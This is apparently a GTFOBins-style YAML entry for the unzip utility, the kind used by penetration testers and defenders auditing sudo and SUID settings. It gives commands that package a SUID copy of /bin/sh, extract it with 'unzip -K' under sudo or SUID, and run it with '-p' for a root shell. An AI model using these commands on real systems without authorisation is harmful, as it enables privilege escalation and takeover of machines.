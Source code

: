 ```yaml
---
description: |
  Certain `unzip` versions allows to preserve the SUID bit. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  zip shell.zip sh
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:
    code: |
      sudo unzip -K shell.zip
      ./sh -p
  suid:
    code: |
      ./unzip -K shell.zip
      ./sh -p
---
```


